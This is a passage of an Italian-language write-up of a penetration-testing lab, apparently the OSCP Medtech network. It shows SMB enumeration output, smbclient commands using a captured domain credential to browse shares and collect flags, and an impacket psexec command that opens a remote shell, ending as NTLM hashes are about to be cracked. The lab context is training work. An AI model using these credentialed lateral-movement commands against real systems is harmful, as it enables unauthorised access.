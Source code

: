 ```bash
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1s
|_nbstat: NetBIOS name: FILES02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:c4:e3 (VMware)
| smb2-time: 
|   date: 2024-05-18T10:59:38
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

Con le credenziali trovate precedentemente lancio il seguente comando:

```bash
smbclient -N -L //172.16.184.11/ -U medtech.com/joe%Flowers1 
```

```bash
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C               Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        TEMP            Disk      
```

Successivamente lancio questo comando per esplorare lo share C:

```bash
smbclient \\\\172.16.184.11\\C -U medtech.com/joe%Flowers1
```

Nella cartella desktop dell'utente joe trovo la flag local.txt e in quella dell'utente Administrator trovo la flag proof.txt.

Ottengo una shell attraverso questo comando:

```bash
/usr/share/doc/python3-impacket/examples/psexec.py -port 445 medtech.com/joe:Flowers1@172.16.184.11 
```

Trovo un file nel quali sono contenuti diversi hash NTLM:

![](/OSCP/Immagini_OSCP/Medtech/11_NTLM_hash.png)

Tramite hashcat recupero la password per l'utente wario:
